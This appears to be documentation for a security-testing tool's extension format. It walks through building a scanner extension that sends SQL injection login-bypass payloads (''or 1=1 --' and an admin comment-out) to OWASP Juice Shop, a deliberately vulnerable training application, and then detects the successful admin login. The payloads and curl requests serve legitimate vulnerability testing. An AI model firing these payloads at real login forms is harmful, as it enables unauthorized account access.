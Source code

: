 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Creation of Nonmodifying Extension

The extension described in this document will not modify an incoming baseline request to inject some payload into. Instead, the two predefined test requests will be sent to the host that is specified in the baseline request. These test requests contain payloads that could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.


##  Preparations

It is highly recommended to [investigate the target application's behavior][link-app-examination] prior to creation of the FAST extension.


##  Constructing the Extension

Create a file that describes the extension (e.g., `non-mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    
    * vulnerability header: `OWASP Juice Shop SQLi (non-mod extension)`
    * vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * vulnerability type: SQL injection
    * vulnerability threat level: high
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `send` section, the [Send phase][doc-send-phase]**

    There are two payloads that should be sent as an `email` parameter value alongside any `password` value in order to exploit the SQL injection vulnerability in the target application:
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    You can craft two test requests, each containing
    
    * the `email` parameter with one of the values described above and 
    * the `password` parameter with an arbitrary value.

    It is sufficient to use just one of these requests to test our example target application (OWASP Juice Shop).
    
    However, having a set of several prepared test requests may be useful when conducting the security testing of a real application: if one of the requests can not exploit a vulnerability anymore thanks to updates and improvements in the application, then there will be other test requests available that may still exploit the vulnerability because of other payloads in use.

    The request with the first payload from the list above is similar to this one:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    The second request looks like the first one:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Add the `send` section containing the descriptions of these two test requests:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "A note about the `Host` header" 
        The `Host` header can be omitted in these requests because it does not influence the exploitation of this particular SQLi vulnerability. A FAST node will automatically add the `Host` header extracted from an incoming baseline requests.
        
        Read [here][link-send-headers] about how the Send phase handles request's headers.

     3.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    
    * The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escaping the special symbols"
    Remember to escape the special symbols in the strings.

##  Extension File

Now the `non-mod-extension.yaml` file contains a complete set of the sections required for the extension to operate. The list of the file's contents is shown below:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Using Extension

For detailed information about how to use the created expression, read [this document][link-using-extension].